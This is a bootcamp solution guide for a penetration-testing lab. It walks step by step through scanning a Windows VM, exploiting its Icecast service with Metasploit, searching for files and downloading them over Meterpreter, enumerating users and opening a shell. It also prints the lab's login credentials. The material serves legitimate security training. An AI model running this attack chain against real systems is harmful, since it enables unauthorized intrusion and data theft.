

## Solution Guide: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux
- Target machine: DVW10 

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer:  `nmap -sV 192.168.0.20`

  
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use 0`
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`
 
      
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `run`
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile*.txt`
 
     
  
 
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`
 
      

      > Answer: `Verify that you have successfully downloaded the file`

      
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
 
   - Run the following command:
 
     - `run post/multi/recon/local_exploit_suggester`
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

   

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
 
   
     
B. Open a Meterpreter shell.
 
  > Answer: `shell` 
 
  - Run the command that displays the target's computer system information:

   > Answer: `systeminfo`

 
   

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
